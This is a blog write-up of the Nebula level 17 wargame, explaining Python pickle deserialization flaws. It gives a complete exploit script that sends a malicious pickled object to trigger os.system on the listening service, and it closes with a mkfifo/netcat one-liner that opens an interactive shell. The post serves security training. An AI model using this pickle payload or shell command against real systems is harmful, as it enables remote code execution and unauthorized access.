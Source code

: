 ```yaml
---
layout: post
title: "Vulnerability just ahead"
category: WarGame, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 17](https://web.archive.org/web/20141004180714/http://exploit-exercises.com/nebula/level17) Agenda**: "There is a python script listening on port 10007 that contains a vulnerability."

<center>
	<img src="/images/2015-10-15-vulnerability_just_ahead/3200ef81de9f240f664048f7.jpg">
</center>
<br />

The first thing that catches the eye in the source, is the next line(immediately raises the question - "_whyyy?_"):
{% highlight python linenos %}
obj = pickle.loads(line)
{% endhighlight %}
This means that server expects to receive serialized(by [pickle](https://docs.python.org/2/library/pickle.html#module-pickle)) data. [Search results](https://duckduckgo.com/?q=cPickle+vulnerability&t=canonical) confirms, that module is unsafe (in the main - [\_\_reduce\_\_](https://docs.python.org/2/library/pickle.html#object.__reduce__) deserialization method). According to the docs, we need to send serialized object, that implements required routine, which in order should return something useful. In our case, a tuple with "_os.system_" as callable object argumet, and the second one(tuple's arg) should be another tuple which will serve as an callable's arg("_getflag_"):

{% highlight python linenos %}
#!/usr/bin/python
import os
import socket
import cPickle

TARGET_HOST = "0.0.0.0"
TARGET_PORT = 10007
TARGET_CMD = "getflag > /tmp/flag"

class GhostInTheShell(object):
    def __reduce__(self):
        return (os.system, (TARGET_CMD,))


def sendPayloadAndReceiveResponse():    
    payload = cPickle.dumps(GhostInTheShell())

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((TARGET_HOST, TARGET_PORT))
    sock.send(payload) 

    print(sock.recv(1024))

    sock.close()


def main():
    sendPayloadAndReceiveResponse()


if __name__ == "__main__":
    main()
{% endhighlight %}

{% highlight sh linenos %}
level17@nebula:~$ ./pwn.py && sleep 1 && cat /tmp/flag 
Accepted connection from 127.0.0.1:56737
You have successfully executed getflag on a target account
{% endhighlight %}

Well, if smdb needs smth more than just string output evidence(e.g. simple interactive shell 。☆°⋆＼(- – )), then smdb could grab a chunk from nc man page:

{% highlight sh linenos %}
rm -f /tmp/f; mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f
{% endhighlight %}

Resources:

 * [Python class object](https://docs.python.org/2/library/functions.html#object)
 * [What is the purpose of self in Python?](http://stackoverflow.com/questions/2709821/what-is-the-purpose-of-self-in-python)